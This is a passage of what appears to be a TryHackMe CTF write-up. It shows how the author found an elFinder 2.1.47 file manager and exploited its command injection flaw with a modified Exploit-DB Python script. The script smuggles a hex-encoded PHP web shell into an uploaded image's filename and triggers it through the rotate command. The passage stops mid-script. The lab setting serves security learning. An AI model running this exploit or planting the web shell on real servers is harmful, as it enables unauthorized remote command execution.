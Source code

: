 After logging in with valid credentials, I was redirected to `files.lookup.thm`, so I added it to `/etc/hosts`.

```bash
echo "<target_ip> files.lookup.thm" | sudo tee -a /etc/hosts
```

This is `ElFinder`, a web file manager. From the `?` button icon in menu section, I identified the version of `ElFinder`. A Google search for `ElFinder 2.1.47 exploit` led me to an exploit on Exploit-DB, which revealed that this version is vulnerable to PHP command injection.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1736411932620/bd6f4f9e-14bd-443a-b96a-8b1523b7c4c4.png align="left")

We can use the Exploit-DB script with a few modifications, or alternatively, we can use Metasploit. I'll demonstrate both methods.

**First, Exploit-DB Script**

The script uploads a JPG file to the file server, using an encoded payload as the image filename. However, there is an issue: I don’t have Python2 installed. This should not be a problem for Kali Linux users, as it comes pre-packaged with Python2. Below is the modified Python3 script.

```python
#!/usr/bin/python
# exploit.py
import requests
import json
import sys

payload = "SecSignal.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > SecSignal.php;echo SecSignal.jpg"

def usage():
    if len(sys.argv) != 2:
        print("Usage: python exploit.py [URL]")
        sys.exit(0)


def upload(url, payload):
    files = {"upload[]": (payload, open("SecSignal.jpg", "rb"))}
    data = {
        "reqid": "1693222c439f4",
        "cmd": "upload",
        "target": "l1_Lw",
        "mtime[]": "1497726174",
    }

    r = requests.post("%s/php/connector.minimal.php" % url, files=files, data=data)
    j = json.loads(r.text)
    return j["added"][0]["hash"]


def imgRotate(url, hash):
    r = requests.get(
        "%s/php/connector.minimal.php?target=%s&width=539&height=960&degree=180&quality=100&bg=&mode=rotate&cmd=resize&reqid=169323550af10c"
        % (url, hash)
    )
    return r.text


def shell(url):
    r = requests.get("%s/php/SecSignal.php" % url)
    if r.status_code == 200:
        print("[+] Pwned! :)")
        print("[+] Getting the shell...")
        while 1:
```